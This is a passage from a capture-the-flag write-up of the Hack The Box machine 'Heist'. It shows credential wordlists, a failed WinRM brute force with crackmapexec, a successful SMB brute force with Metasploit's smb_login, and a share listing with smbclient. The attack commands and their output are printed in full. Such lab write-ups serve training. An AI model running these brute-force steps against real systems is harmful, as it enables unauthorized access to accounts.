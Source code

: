 With them I created a small wordlist.
```
root@w0lf:~/CTF/HTB/Boxes/Heist#  cat user.txt 
hazard
rout3r
admin
root@w0lf:~/CTF/HTB/Boxes/Heist# cat password.txt 
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

We know port `5985` is open so I bruteforce winrm using `crackmapexec`
```
root@w0lf:~/CTF/HTB/Boxes/Heist# crackmapexec winrm 10.10.10.149 -u user.txt -p password.txt 
WINRM       10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
```
Nothing worked.

Let's try SMB Bruteforce using Metasploit module `use auxiliary/scanner/smb/smb_login`

```
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.149:445      - 10.10.10.149:445 - Starting SMB login bruteforce
[+] 10.10.10.149:445      - 10.10.10.149:445 - Success: '.\hazard:stealth1agent'
[!] 10.10.10.149:445      - No active DB -- Credential data will not be saved!
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\rout3r:stealth1agent',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\rout3r:$uperP@ssword',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\rout3r:Q4)sJu\Y8qz*A3?d',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\admin:stealth1agent',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\admin:$uperP@ssword',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\admin:Q4)sJu\Y8qz*A3?d',
[*] 10.10.10.149:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We got one success let's login and check whats inside.
```
root@w0lf:~/CTF/HTB/Boxes/Heist# smbclient -L 10.10.10.149 -U hazard
Enter WORKGROUP\hazard's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```